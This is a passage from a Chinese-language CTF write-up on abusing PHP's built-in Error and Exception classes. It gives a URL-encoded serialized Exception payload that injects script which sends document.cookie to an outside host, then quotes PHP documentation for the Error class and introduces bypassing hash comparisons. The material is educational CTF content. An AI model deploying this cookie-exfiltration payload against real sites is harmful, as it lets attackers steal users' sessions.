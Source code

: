 一般xss的题都是在cookie理里，所以我们利用XSS把cookie带出来

```php
/?yds_is_so_beautiful=O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A109%3A%22%3Cscript%3Ewindow.open%28%27http%3A%2F%2Fde28dfb3-f224-48d4-b579-f1ea61189930.node3.buuoj.cn%2F%3F%27%2Bdocument.cookie%29%3B%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D
```

然后flag就在cookie中

##  使用 Error/Exception 内置类绕过哈希比较

Error和Exception这两个PHP内置类，但对他们不限于 XSS，还可以通过巧妙的构造绕过md5()函数和sha1()函数的比较。

###  Error类

条件：php7.0.0

类介绍

```php
Error implements Throwable {
	/* 属性 */
	protected string $message ;
	protected int $code ;
	protected string $file ;
	protected int $line ;
	/* 方法 */
	public __construct ( string $message = "" , int $code = 0 , Throwable $previous = null )
	final public getMessage ( ) : string
	final public getPrevious ( ) : Throwable
	final public getCode ( ) : mixed
	final public getFile ( ) : string
	final public getLine ( ) : int
	final public getTrace ( ) : array
	final public getTraceAsString ( ) : string
	public __toString ( ) : string
	final private __clone ( ) : void
}
```

**类属性：**

- message：错误消息内容
- code：错误代码
- file：抛出错误的文件名
- line：抛出错误在该文件中的行数

**类方法：**

- [`Error::__construct`](https://www.php.net/manual/zh/error.construct.php) — 初始化 error 对象
- [`Error::getMessage`](https://www.php.net/manual/zh/error.getmessage.php) — 获取错误信息
- [`Error::getPrevious`](https://www.php.net/manual/zh/error.getprevious.php) — 返回先前的 Throwable
- [`Error::getCode`](https://www.php.net/manual/zh/error.getcode.php) — 获取错误代码
- [`Error::getFile`](https://www.php.net/manual/zh/error.getfile.php) — 获取错误发生时的文件
- [`Error::getLine`](https://www.php.net/manual/zh/error.getline.php) — 获取错误发生时的行号
- [`Error::getTrace`](https://www.php.net/manual/zh/error.gettrace.php) — 获取调用栈（stack trace）
- [`Error::getTraceAsString`](https://www.php.net/manual/zh/error.gettraceasstring.php) — 获取字符串形式的调用栈（stack trace）
- [`Error::__toString`](https://www.php.net/manual/zh/error.tostring.php) — error 的字符串表达
- [`Error::__clone`](https://www.php.net/manual/zh/error.clone.php) — 克隆 error

